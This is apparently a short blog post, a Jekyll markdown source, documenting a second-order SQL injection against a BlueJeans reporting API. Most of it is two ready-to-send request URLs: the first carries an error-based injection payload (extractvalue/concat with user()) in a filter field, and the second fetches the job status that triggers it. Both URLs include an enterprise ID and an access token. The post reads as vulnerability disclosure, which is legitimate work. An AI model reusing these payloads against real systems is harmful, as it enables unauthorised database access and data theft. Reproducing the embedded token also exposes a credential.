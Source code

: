 ```yaml
---
layout: post
title: BlueJeans Second Order Sql Injection
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Step 1:

<img src="https://i.loli.net/2019/03/06/5c7f7c6a83dbc.jpeg">

{% highlight php %}
https://indigo-api.bluejeans.com/v1/enterprise/158555/indigo/reportJob/meetings?filter=[{"type":"date","comparison":"gt","value":"2018-11-06T00:00:00+08:00","field":"start_time%20>'2018-11-06T00:00:00+08:00'+and(extractvalue(1,concat(0x2c,user())))%23"},{"type":"date","comparison":"lt","value":"2019-01-09T23:59:59+08:00","field":"end_time"}]&fileName=meetings_6th-Nov-2018_9th-Jan-2019&userid=2782750&filter=%255B%257B%2522type%2522%253A%2522date%2522%252C%2522comparison%2522%253A%2522gt%2522%252C%2522value%2522%253A%25222018-11-06T00%253A00%253A00%252B08%253A00%2522%252C%2522field%2522%253A%2522start_time%2522%257D%252C%257B%2522type%2522%253A%2522date%2522%252C%2522comparison%2522%253A%2522lt%2522%252C%2522value%2522%253A%25222019-01-09T23%253A59%253A59%252B08%253A00%2522%252C%2522field%2522%253A%2522end_time%2522%257D%255D&access_token=3cfd90abe2fa44c1b1d68555c6c01416&app_name=command_center
{% endhighlight %}

(or you just use your enterprise number and your accesstoken,you can get this when you login in)

<img src="https://i.loli.net/2019/03/06/5c7f7c6ab7a24.jpeg">

&nbsp;&nbsp;&nbsp;Now, you will get a jobid like `5c7e04884f0cb3fb45043ab9`

## Step 2:

{% highlight php %}
https://indigo-api.bluejeans.com/v1/enterprise/158555/indigo/jobStatus/`5c7e04884f0cb3fb45043ab9`?filter=&access_token=3cfd90abe2fa44c1b1d68555c6c01416&_=1551762518572&app_name=command_center
{% endhighlight %}

<img src="https://i.loli.net/2019/03/06/5c7f7c6ad61df.jpeg">